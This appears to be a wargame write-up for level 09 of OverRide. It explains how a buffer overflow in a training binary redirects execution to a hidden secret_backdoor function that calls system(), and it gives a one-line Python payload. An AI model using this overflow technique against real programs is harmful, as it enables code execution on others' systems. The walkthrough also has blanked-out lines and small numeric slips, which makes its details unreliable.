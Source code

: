 # Level 09

Once logged in, you will see a binary

```
$ ssh localhost -p 4242 -l level09
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level09@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$ ls
level09
level09@OverRide:~$
```

by running the program, the prompt opens for asking a name, and message to send to `@Unix-Dude`

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: sucho
>: Welcome, sucho
>: Msg @Unix-Dude
>>: hi
>: Msg sent!
level09@OverRide:~$
```

By decompiling the binary, there are a function that never called, name `secret_backdoor`, which gets user input and stores into the buffer(local variable), and calles `system()` function with the buffer. also, the program uses `fgets()`, `printf()`, `strncpy()` throughout the program, so there may be a chance to exploit the program with buffer overflow.


XXXXXXXXXXXXXXXXXXXXXXX
decompilation gives the set_username function will take `0x29 = 40` bytes into the buffer. the buffer after, we want to feed `256 = '\xff'`, so that the value initially set up, which is 140, will be able extend the length of `strncpy()`.
XXXXXXXXXXXXXXXXXXXXXXX

XXXXXXXXXXXXXXXXXXXXXXXXXXXX
We want to overwrite the rip (64 bits version of eip) to the address of the function `secret_backdoor`. but the address only will be right once you `run` the program.
XXXXXXXXXXXXXXXXXXXXXXXXXXXX


```
python -c 'import struct; print "A"*40 + "\x90\n" + "B"*200 + struct.pack("L", 0x000055555555488c)' # I stands for unsigned int, L stands for unsigned long
````
